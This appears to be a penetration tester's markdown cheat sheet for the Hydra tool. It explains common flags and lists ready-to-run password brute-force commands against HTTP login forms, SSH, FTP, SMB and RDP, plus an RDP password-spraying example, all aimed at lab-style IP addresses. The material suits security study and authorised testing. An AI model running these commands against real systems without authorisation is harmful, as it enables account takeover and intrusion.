 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://www.thc.org/>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.









### HTTP

#### POST Login

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"


sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```




#### GET Login
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.231.201
```














### ssh
```

hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V

hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```














### ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -L /usr/share/metasploit-framwork/data/wordlists/common_users.txt -P /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```











### smb
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [IP] smb


```












### RDP
```

hydra -l nadine -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.213.227




# Spraying attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
